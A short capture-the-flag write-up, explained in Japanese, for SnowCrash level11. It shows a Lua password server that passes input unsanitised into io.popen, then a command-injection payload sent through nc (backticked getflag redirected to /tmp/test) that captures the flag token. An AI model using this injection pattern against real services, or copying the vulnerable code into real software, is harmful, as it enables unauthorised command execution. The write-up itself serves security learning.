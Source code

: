 ```sh
level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

io.popenを使用してシステムコマンドを実行していますが、ユーザー入力をそのまま使用しているため、コマンドインジェクション攻撃に脆弱。

ここの部分のPassの部分にコマンドをいれて実行できる
  prog = io.popen("echo "..pass.." | sha1sum", "r")

```sh
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag` > /tmp/test
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

